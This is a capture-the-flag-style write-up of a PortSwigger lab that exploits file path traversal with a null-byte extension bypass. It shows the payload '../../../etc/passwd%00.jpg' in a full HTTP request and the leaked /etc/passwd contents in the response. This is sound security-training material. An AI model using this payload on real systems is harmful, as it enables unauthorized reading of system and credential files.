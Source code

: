# [Lab 6: File path traversal, validation of file extension with null byte bypass](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)

---

## Description

This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application validates that the supplied filename ends with the expected file extension.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

---

## Solution

View the page source of `/` and note that each product's image is rendered via an `img` take with the `src` attribute set to `/image?filename=$FILENAME`. According to the challenge description, the application validates that `$FILENAME` ends with the expected file extension, probably `.jpg` based on current `filename` values on the web page.

The target file is `/etc/passwd`. Attempt to use a URL-encoded null byte (`%00`) before the `.jpg` extension to satisfy the extension whitelisting but cause the `/etc/passwd` file to actually be read by the file system operation.

```http
GET /image?filename=../../../etc/passwd%00.jpg HTTP/1.1
Host: ac5a1f0f1fbb194480aeae32006f00db.web-security-academy.net
Cookie: session=FPuIvrNSBmsUEdJIWrR0dapauSAtIO0q
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close
```

```txt
HTTP/1.1 200 OK
Content-Type: image/jpeg
Connection: close
Content-Length: 1205

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:2001:2001::/home/peter:/bin/bash
carlos:x:2002:2002::/home/carlos:/bin/bash
user:x:2000:2000::/home/user:/bin/bash
elmer:x:2099:2099::/home/elmer:/bin/bash
dnsmasq:x:101:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
messagebus:x:102:101::/nonexistent:/usr/sbin/nologin
```
